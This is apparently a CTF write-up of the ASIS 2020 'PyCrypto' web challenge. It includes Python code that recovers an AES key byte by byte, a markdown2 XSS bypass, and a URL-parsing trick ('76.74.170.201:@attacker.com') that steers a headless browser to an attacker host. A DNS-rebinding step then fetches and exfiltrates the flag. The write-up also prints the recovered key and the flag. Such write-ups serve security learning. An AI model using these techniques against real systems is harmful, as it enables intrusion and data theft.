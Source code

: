 # PyCrypto

Web + Crypto(not) challenge.

We are given a flask app, with the `/flag` route giving flag but only to localhost visiters.
Glancing over the code (bad decision) we find that there is some AES crypto happening when you do `/register` and `/login`.

There is a `/ticket` route which has a lot of CSP rules in it but allow script-inline.
This route takes a encrypted paramter and check if the user AES key matches its AES key and returns the decrypted contents passing it through `markdown2.markdown(res,safe_mode=True)` to prevent an injection.

There is also a `/submit` route which opens a headless browser and visits your link if the hostname matches the webservice host `76.74.170.201`

Now the attack plan became clear

1. Break AES
2. `markdown2.markdown == 2.3.8` has a known vulnerability, use it to bypass html injection.
https://github.com/trentm/python-markdown2/issues/341
3. fetch('/flag') and send it your server

Pretty straightforward. Or so I thought

The AES key had a length of 32
This was the encryption function

```
def encrypt(plaintext):
    plaintext = pad(plaintext)
    iv = pad("")
    ciphertext = ""
    for i in range(0, len(plaintext), BLOCK_SIZE):
        iv = xor(aes.encrypt(plaintext[i:i+BLOCK_SIZE]),iv)
        ciphertext += iv
```

We can easily break AES byte by byte by with specially crafted usernames allowing us to control AES blocks.

```
def getBlock(candidate):
    register(candidate)
    result = unhexlify(getCipher(candidate))
    iv1 = result[:32]
    return iv1

def cracker():
    key = ''
    for i in range(len(key)+1, 32):
        candidate = ('a'*(32 - i))
        ref = getBlock(candidate)
        for p in string.printable:
            try:
                candidate = ('a'*(32 - i) + key) + p
                result = getBlock(candidate)
                if result == ref:
                    key += p
                    print("Match Found!!!", key)
                    break
            except Exception as e:
                print("Error Occured!", e)
    return key
```

Took its time and gave out the key `ASIS2020_W3bcrypt_ChAlLeNg3!@#%^`

Inline script tags were allowed on the `/ticket` route meaning our injected payload should work just fine.
Then using the python-markdown2 vulnerability, we make the XSS payload and encrypt it to get our payload.

http://76.74.170.201:8080/ticket?msg=1d1758c42e3d973ad815770ad433bdf588d93bc5a40a7c2227879ab1ccbcf5c0af642137d577226fff5dc9dcaec9027b4a731b7c7a87ce3539a5d0c9c41a15c47b10641cd4113e84692f657d877aa04f29ca8d8031f4bea7886b0a3b380da4d0eb9912dbc75f8bfc004b84e24079894387df5ec1f7c1ccc1fa6470491314d60b&key=ASIS2020_W3bcrypt_ChAlLeNg3!%40%23%25^

This is when we came across the line that I just glanced over in the `/ticket` route

```
res_key = request.args.get("key")
if res_key == key and request.remote_addr != '127.0.0.1':        
```
**remote_addr != '127.0.0.1' This page will not load locally. WTF !**

At this point I started looking at Flask source code understanding how it gets the remote_addr value, reverse proxies usually set `X-Forwarded-For` header to tell the server the real client ip. It didn't work obviously,it would not be as simple as just setting a header.


So now back to analysing the code again.

This host check looked very suspicious

```
host = urlparse(url).netloc
try:
    host = host[:host.index(':')]
except:
    pass
```

This is definitely not the standard way to do this.
This could easily be bypassed with this url `http://76.74.170.201:@attacker.com/`

The `urlparse(url).netloc` will result in `76.74.170.201:@attacker.com` and then `host[:host.index(':')]` will give out `76.74.170.201`.
But opening it in a browser it will open attacker.com

At this point we can run javascript on the server. 
CORS prevented us from doing a simple `fetch('http://localhost:8080/flag)` we needed to be on the same origin.

This made me think of DNS-Rebinding attack. I'll get it to open my domain on the headless browser, rebind the domain to `127.0.0.1` after it has opened and just fetch the flag.

```
driver = webdriver.Chrome(chrome_options=options, executable_path='/usr/bin/chromedriver')
driver.implicitly_wait(30)
```

On first look this seemed to cause an issue, implicitly_wait(30) will instruct the browser to wait MAX 30 sec to load the DOM.
And executing DNS Rebinding attack should take over 60 seconds atleast ( assuming the browser uses a minimum DNS TTL of 30 seconds ).

I created a sleeping image endpoint to test the 30 second timeout. 

```
app.get("/backend/hang.png", function(req, res) {
    child_process.execSync("sleep 100");
    res.status(200).send();
});

```

To my suprise the 30 second timeout had no affect and I could keep the browser hanging as long as I needed.
But again to my suprise this was not needed.

I used this tool https://github.com/nccgroup/singularity/ to attack the challenge.

This has a technique called `multiple-answers` where the DNS server would send both the server address and the local ip in a single dns query.
Browser will always prefer the remote server, but once the initial attack page has been loaded it will ip-block the client  therefore forcing the browser to
use the other resolved address i.e `127.0.0.1`

The whole DNS rebinding process took less than 8-10 seconds. Although it took me 3-4 tries before DNS successfully rebinded and got the flag.

ASIS{Y0U_R3binded_DN5_f0r_SSRF}


P.S @teranq from the team justCatTheFish got bored and found a bypass for the 2.3.8 markdown fix. https://github.com/trentm/python-markdown2/issues/362




Follow me: https://twitter.com/abcdsh_/


